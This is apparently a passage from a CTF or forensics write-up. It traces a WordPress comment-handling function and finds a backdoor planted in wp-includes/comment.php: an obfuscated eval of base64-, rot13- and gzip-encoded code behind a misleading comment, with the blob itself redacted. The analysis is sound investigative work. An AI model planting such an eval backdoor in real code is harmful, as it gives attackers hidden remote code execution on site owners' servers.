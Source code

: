 We search for the function definition with grep and find it in `wp-includes/comment.php`.

```
$ grep -ir wp_handle_comment_submission
wp-comments-post.php:$comment = wp_handle_comment_submission( wp_unslash( $_POST ) );
wp-includes/comment.php:function wp_handle_comment_submission( $comment_data ) {
wp-includes/rest-api/endpoints/class-wp-rest-comments-controller.php:            * comment_content. See wp_handle_comment_submission().
```

In the function definition there is a rather suspicious looking bases64 blob which gets base64 decoded, rot13 decoded and eventually evaled.

`comment.php`
```php
<?php
...[snip]...

function wp_handle_comment_submission( $comment_data ) {

	$comment_post_ID      = 0;
	$comment_parent       = 0;
	$user_ID              = 0;
	$comment_author       = null;
	$comment_author_email = null;
	$comment_author_url   = null;
	$comment_content      = null;

	if ( isset( $comment_data['comment_post_ID'] ) ) {
		$comment_post_ID = (int) $comment_data['comment_post_ID'];
	}
	if ( isset( $comment_data['author'] ) && is_string( $comment_data['author'] ) ) {
		$comment_author = trim( strip_tags( $comment_data['author'] ) );
	}
	if ( isset( $comment_data['email'] ) && is_string( $comment_data['email'] ) ) {
		$comment_author_email = trim( $comment_data['email'] );
	}
	if ( isset( $comment_data['url'] ) && is_string( $comment_data['url'] ) ) {
		$comment_author_url = trim( $comment_data['url'] );
	}
	if ( isset( $comment_data['comment'] ) && is_string( $comment_data['comment'] ) ) {
		$comment_content = trim( $comment_data['comment'] );
	}
	if ( isset( $comment_data['comment_parent'] ) ) {
		$comment_parent = absint( $comment_data['comment_parent'] );
	}

	// aded to validte  my ownemail against my  internal scrit
	// ba4fb13188ee48077524f9ac23c230250c5661aec9776389e8befbce277c72de - ignore
	eval(gzuncompress(str_rot13(base64_decode('[base64-blob]')));
	
...[snip]...
?>
```
